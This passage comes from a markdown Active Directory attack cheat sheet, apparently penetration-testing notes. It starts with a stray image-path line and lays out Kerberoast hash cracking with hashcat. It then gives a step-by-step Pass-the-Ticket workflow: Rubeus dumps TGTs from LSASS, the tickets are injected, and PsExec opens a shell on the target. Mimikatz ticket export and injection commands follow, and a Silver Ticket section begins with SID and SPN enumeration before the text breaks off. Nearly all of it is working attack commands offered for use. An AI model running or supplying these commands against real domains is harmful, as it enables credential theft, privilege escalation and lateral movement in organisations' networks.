 * And finally, crack the hash

`sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Pass the Ticket

* dump TGT from LSASS
* use TGT toact as domain admin by injecting it into current login sessions ID
* access services that can be accessed by the admin owner of the ticket


1. Perform triage with Rubeus: `.\Rubeus.exe triage`
2. see which tickets provide access to tgt
3. Dump these tickets with Rubeus: `.\Rubeus.exe dump /user:user_that_accessed_tgt`
4. Copy base64TGT and convert it to a single line string:
```
Windows:
$base64RubeusTGT=$(Get-Content ./tgt.txt) # where tgt.txt contains unstructured base64
$base64RubeusTGT.Replace(" ","").replace("`n","")

Linux:
tr -d '\n' < tgt.txt | tr -d ' '

Make kirbi ticket from BASE64 blob
[IO.File]::WriteAllBytes("c:\ok\xxx.kirbi", [Convert]::FromBase64String($xxx))

```
5. Pass Ticket converted string: `  .\Rubeus.exe ptt /ticket:$base64RubeusTGT`
6. If ticket owned has enough permissions try getting shell on target Computer: `  .\PsExec.exe -accepteula \\target_host.contoso.com cmd`



#### Using mimikatz

```cmd
sekurlsa::tickets /export
kerberos::ptt [ticket name]
```

### Silver Ticket
Silver tickets are essential forged TGS tickets which grant you access to a particular service aka service-tickets

#### Mimikatz Workflow

Guide to mimikatz: https://adsecurity.org/?page_id=1821

1. Obtain SID and SPN

```powershell

whoami /user

# all numbebers before the relative identifier (last 4 numbers) are SID we need

or use powerview

Import-Module <Path to PowerView.ps1>
Get-DomainSID

# obtain SPNs

Get-DomainUser -SPN | select sereviceprincipalname

```
